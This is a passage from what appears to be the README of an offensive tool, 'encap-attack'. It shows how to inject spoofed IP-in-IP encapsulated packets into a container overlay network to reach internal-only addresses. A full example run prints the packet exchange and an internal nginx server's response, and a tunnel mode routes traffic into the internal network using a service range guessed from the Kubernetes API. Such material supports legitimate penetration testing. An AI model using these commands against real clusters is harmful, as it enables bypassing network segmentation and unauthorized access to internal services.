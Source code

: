 ```shell
encap-attack ipip -d <destination_host_ip> -s <another_host_ip> request -di <internal_destination_ip> http "<request>"
```

Example:

```
# encap-attack ipip -d 192.168.124.10 -s 192.168.124.11 request -di 10.100.99.5 http "GET / HTTP/1.1\r\nHost: 10.100.99.5"
Running in IP-in-IP mode

Interface IP: 192.168.124.200

Sending SYN: Ether / IP / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http S

Sending ACK: Ether / IP / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http A

Sending ACK PUSH: Ether / IP / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http PA / Raw

Sending ACK: Ether / IP / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http A

Sending FIN ACK: Ether / IP / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http FA

Sending ACK: Ether / IP / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http A

Response:

HTTP/1.1 200 OK
Server: nginx/1.27.1
Date: Fri, 23 Aug 2024 10:35:13 GMT
Content-Type: text/html
Content-Length: 615
Last-Modified: Mon, 12 Aug 2024 14:21:01 GMT
Connection: keep-alive
ETag: "66ba1a4d-267"
Accept-Ranges: bytes


<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
</head>
<body>
<h1>Welcome!</h1>
</body>
</html>
```

Alternatively, a tunnel can be configured to route all traffic destined for specific IP ranges into the encapsulated network. The `-a` flag is optionally used to specify a Kubernetes API server. If this value is set, the API server will be queried to guess the service IP range (as per `kubeintel guess-cidr` above) - and this route will automatically be added to the tunnel. Additional routes can be added with the `-r` flag. Use Ctrl+C to shut down the tunnel.

